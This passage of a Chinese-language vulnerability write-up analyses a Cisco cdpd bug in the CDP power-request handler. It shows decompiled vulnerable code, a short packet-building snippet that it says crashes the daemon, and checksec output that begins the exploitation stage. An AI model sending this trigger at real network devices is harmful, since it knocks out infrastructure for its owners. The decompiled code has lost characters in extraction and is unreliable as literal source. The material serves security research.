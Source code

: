 ### <a class="reference-link" name="%E8%A7%A6%E5%8F%91%E6%BC%8F%E6%B4%9E"></a>触发漏洞

下一步，就是研究怎么触发漏洞。首先，把cdpd从设备中给取出来，然后把二进制丢到ida里找漏洞点。根据Armis Labs发布的漏洞分析，找到了该漏洞存在于`cdpd_poe_handle_pwr_tlvs`函数，相关的漏洞代码如下：

```
if ( (signed int)v28 &gt; 0 )
`{`
v35 = (int )(a3 + 4);
v9 = 1;
do
`{`
v37 = v9 - 1;
v41[v9 - 1] = v35;
(&amp;v40 + v9) = _byteswap_ulong((&amp;v40 + v9));
if ( !sdwrap_hist_event_subtype_check(7536640, 104) )
`{`
(_DWORD )v38 = 104;
snprintf(&amp;s, 0x200u, “pwr_levels_requested[%d] = %dn”, v37, (&amp;v40 + v9));
sdwrap_hist_event(7536640, strlen(&amp;s) + 5, v38);
`}`
if ( sdwrap_chk_int_all(104, 0, 0, 0, 0) )
`{`
v24 = (&amp;v40 + v9);
buginf_ftrace(1, &amp;sdwrap_dbg_modname, 0, “pwr_levels_requested[%d] = %dn”);
`}`
snprintf(v38, 0x3FCu, “1111 pwr_levels_requested[%d] = %dn”, v37, (&amp;v40 + v9), v24);
sdwrap_his_log_event_for_uuid_inst(124, 7536640, 1, 0, strlen(v38) + 1, v38);
(_DWORD )(a1 + 4 v9 + 1240) = *(&amp;v40 + v9);
++v35;
++v9;
`}`
while ( v9 != v28 + 1 );
`}`
```

后续仍然是根据Armis Labs漏洞分析文章中的内容，只要在cdp包中增加Power Request和Power Level就能触发cdpd程序crash：

power_req = cdp.CDPMsgUnknown19(val=”aaaa”+”bbbb”*21)<br>
power_level = cdp.CDPMsgPower(power=16)<br>
cdp_packet = cdp_v2/deviceid/portid/address/cap/power_req/power_level

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

首先看看二进制程序的保护情况：

$ checksec cdpd_9.2.3<br>
Arch: i386-32-little

```
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
RPATH:    '/isan/lib/convert:/isan/lib:/isanboot/lib'
```
